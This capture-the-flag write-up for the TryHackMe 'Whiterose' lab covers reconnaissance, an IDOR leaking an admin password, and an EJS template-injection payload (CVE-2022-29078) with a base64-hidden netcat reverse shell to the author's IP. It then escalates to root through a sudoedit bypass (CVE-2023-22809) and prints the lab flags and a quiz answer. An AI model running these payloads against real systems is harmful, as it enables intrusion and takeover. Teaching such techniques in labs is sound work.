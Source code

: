 # title :  WhiteroseCTF6

## overview 

```bash

This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

```

# walk through

- scan

```bash

$ nmap -sC -sV 10.10.81.213
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 18:26 WAT
SYN Stealth Scan Timing: About 99.99% done; ETC: 18:35 (0:00:00 remaining)
Nmap scan report for 10.10.81.213
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 595.97 seconds


```

```bash

sudo echo "<targets ip>         cyprusbank.thm" >> /etc/hosts

```

- i run a subdomain scan 

```bash

ffuf -u http://cyprusbank.thm/  -H  "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 285ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 233ms]


```

- which i find two sub-domain i.e `admin` and `www`
- i add it to my `/etc/hosts`

- on the  `admin` subdomain i found login dashboard
- which i use the creditial that was provide to login

- after i login the permission wasn't suficient i.e it wasn't have permission to see the phone Number

- i saw a endpoint in the messages that allow modification of id, i.e `(idor)`

- and the message was 

```bash

Cyprus National Bank - Admin Chat

DEV TEAM: Thanks Gayle, can you share your credentials? We need privileged admin account for testing

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

DEV TEAM: Alright we are trying to implement chat history, everything should be ready in week or so

Gayle Bev: That's nice to hear!

Gayle Bev: Developers implemented this new messaging feature that I suggested! What you guys think?

Greger Ivayla: Looks really cool!

Jemmy Laurel: Hey have you guys seen Mrs. Jacobs recently??

Olivia Cortez: No she hasn't been around for a while

Jemmy Laurel: Oh, is she OK?


```

- which user `Gayle Bev` and it password was `p~]P@5!6;rs558:q`


## question  1 : What's Tyrell Wellick's phone number?

answer : `842-029-5701`




- it use ejs templete engine 

- make a research and i find an exploit on the template engine

 - EJS, Server side template injection RCE (CVE-2022–29078)

 ```bash

 name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xMS4xMDguNzUgOTAwMSAtZSBzaA== | base64 -d | bash"');//

 ```

 - catch your shell with netcat

 ```bash

 nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.11.108.75] from (UNKNOWN) [10.10.81.213] 39182
id
uid=1001(web) gid=1001(web) groups=1001(web)

 ```

 - i use python to stablizer my shelll

 ```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

 ctrl + z

stty raw -echo && fg

 ```



 ```bash

 web@cyprusbank:~/app$ cd /

web@cyprusbank:/$ ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var

web@cyprusbank:/$ cd home

web@cyprusbank:/home$ ls
web
web@cyprusbank:/home$ cd web

web@cyprusbank:~$ ls
app  user.txt

web@cyprusbank:~$ cat user.txt
THM{4lways_upd4te_uR_d3p3nd3nc!3s}

 ```

 -  to get the root we have Escalate our Privilege

 ```bash 

web@cyprusbank:~$ sudo -l

Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm


 ```

 - After a short search, we find a bypass CVE-2023-22809 for sudoedit. This is applicable to sudo up to version 1.9.12p1. The vulnerability allows us to read and edit any files by specifying the EDITOR variable.

 ```bash

 web@cyprusbank:~$ sudoedit -V

Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
web@cyprusbank:~$ 


 ```

- the exploit was also useful for the exploit of the vulnerabilty

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis



```bash

web@cyprusbank:~$ export EDITOR="vi -- /root/root.txt"

web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm



```


```bash

THM{5nd_uR_p4ck4g3s}
~                                                                               
~                                                                                                                     
"/var/tmp/rootqaoqYQ4n.txt" 1L, 21C                           1,5           All


```


